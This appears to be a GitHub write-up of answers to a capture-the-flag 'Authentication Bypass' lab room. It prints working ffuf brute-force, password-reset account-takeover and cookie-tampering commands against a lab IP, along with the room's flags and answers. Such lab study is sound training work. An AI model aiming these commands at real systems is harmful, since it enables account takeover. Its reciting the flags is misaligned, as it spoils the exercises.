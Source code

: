 # Authentication Bypass

![banner](imgs/Authentication%20Bypass/roomBanner.png)

## Room objectives

- Username Enumeration
- Brute Force
- Logic Flaw
- Cookie Tampering

## Tasks

### Task 1 : Brief

<details>
<summary>
I have started the machine.
</summary>

```
No answer needed
```

</details>

---

### Task 2 : Username Enumeration

<details>
<summary>
What is the username starting with si*** ?
</summary>

![T2_1](imgs/Authentication%20Bypass/T2_1.png)

<br>

![T2_2](imgs/Authentication%20Bypass/T2.png)

```
simon
```

</details>

<br>

<details>
<summary>
What is the username starting with st*** ?
</summary>

```
steve
```

</details>

<br>

<details>
<summary>
What is the username starting with ro**** ?
</summary>

```
robert
```

</details>

---

### Task 3 : Brute Force

<details>
<summary>
What is the valid username and password (format: username/password)?
</summary>

1. create .txt file with valid usernames
2. run `ffuf -w vUsers.txt:W1,10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.69.170/customers/login -fc 200`

![T3](imgs/Authentication%20Bypass/T3.png)

```
steve/thunder
```

</details>

---

### Task 4 : Logic Flaw

<details>
<summary>
What is the flag from Robert's support ticket?
</summary>

1. create customer account `{username}`
2. run `curl 'http://10.10.69.170/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`
3. you will receive an ticket with id press on id
4. follow link in message to open robert account.
5. you will find ticket with the flag.

![T3](imgs/Authentication%20Bypass/T3.png)

```
THM{AUTH_BYPASS_COMPLETE}
```

</details>

---

### Task 5 : Cookie Tampering

<details>
<summary>
What is the flag from changing the plain text cookie values?
</summary>

1. edit cookies using `curl -H "Cookie: logged_in=true; admin=true" http://10.10.69.170/cookie-test`

![T5](imgs/Authentication%20Bypass/T5.png)

```
THM{AUTH_BYPASS_COMPLETE}
```

</details>

<br>

<details>
<summary>
What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?
</summary>

1.open [crackStation](https://crackstation.net/)

```
463729
```

</details>

<br>

<details>
<summary>
What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?
</summary>

1.open [CyberChef](https://gchq.github.io/CyberChef/)

```
THM{BASE64_ENCODING}
```

</details>

<br>

<details>
<summary>
Encode the following value using base64 {"id":1,"admin":true}
</summary>

1.open [CyberChef](https://gchq.github.io/CyberChef/)

```
eyJpZCI6MSwiYWRtaW4iOnRydWV9
```

</details>
